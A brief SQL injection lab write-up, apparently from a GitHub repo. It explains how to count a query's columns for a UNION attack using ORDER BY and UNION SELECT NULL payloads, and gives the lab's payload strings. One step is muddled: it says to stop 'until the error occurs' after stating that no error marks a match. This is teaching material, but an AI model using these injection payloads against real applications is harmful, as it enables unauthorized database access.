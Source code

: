  There are exactly two ways to determine the number of columns required in an SQL injection UNION attack
 
  1. The first one involves injecting a series of ORDER BY queries until an error occurs. The last value before the error would indicate the number of columns. For example:
  
          ' ORDER BY 1--
          ' ORDER BY 2--
          ' ORDER BY 3-- 
          and so on until an error occurs 
  2.  The second one (most effective in my opinion), would involve submitting a series of UNION SELECT payloads with a number of NULL values. 
			No error = number of NULL matches the number of columns
      ```
		' UNION SELECT NULL--
		' UNION SELECT NULL,NULL--
		' UNION SELECT NULL,NULL,NULL--
		until the error occurs
      ```
      
      Payload for this lab:
      ```sql
      ' UNION SELECT NULL,NULL,NULL--+
      
      or
      
      ' ORDER BY 3--+
      ```
      
      
